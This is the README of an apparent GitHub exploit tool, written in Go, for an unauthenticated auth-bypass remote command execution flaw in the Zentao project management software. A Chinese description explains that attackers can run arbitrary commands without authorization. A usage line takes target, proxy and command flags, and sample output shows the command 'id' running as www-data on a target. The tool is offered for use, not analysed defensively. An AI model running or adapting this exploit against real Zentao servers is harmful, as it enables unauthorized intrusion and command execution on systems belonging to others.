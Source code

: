 # Zentao-Captcha-AuthBypass-RCE

> 禅道研发项目管理软件是国产的开源项目管理软件，专注研发项目管理，内置需求管理、任务管理、bug管理、缺陷管理、用例管理、计划发布等功能，实现了软件的完整生命周期管理。该漏洞是由于禅道项目管理系统权限认证存在缺陷导致，攻击者可利用该漏洞在未授权的情况下，通过权限绕过在服务器执行任意命令。

## USE

```bash
go run main.go -p http://127.0.0.1:8080 -c id -u http://example.com
```

```

####### #######  #####                                           ######   #####  #######
     #     #    #     #   ##   #####  #####  ####  #    #   ##   #     # #     # #
    #      #    #        #  #  #    #   #   #    # #    #  #  #  #     # #       #
   #       #    #       #    # #    #   #   #      ###### #    # ######  #       #####
  #        #    #       ###### #####    #   #      #    # ###### #   #   #       #
 #         #    #     # #    # #        #   #    # #    # #    # #    #  #     # #
#######    #     #####  #    # #        #    ####  #    # #    # #     #  #####  #######

[INFO] Target URL: http://example.com
[INFO] Proxy: http://127.0.0.1:8080
[INFO] Zentao Web根路径: http://example.com
[INFO] requestType: PATH_INFO
[INFO] zentaosid: 4cc98u18fevc4a8kbsmrjv9dlq
[INFO] repoID: 30
[INFO] Command: id
[INFO] 命令执行结果: uid=33(www-data)
```

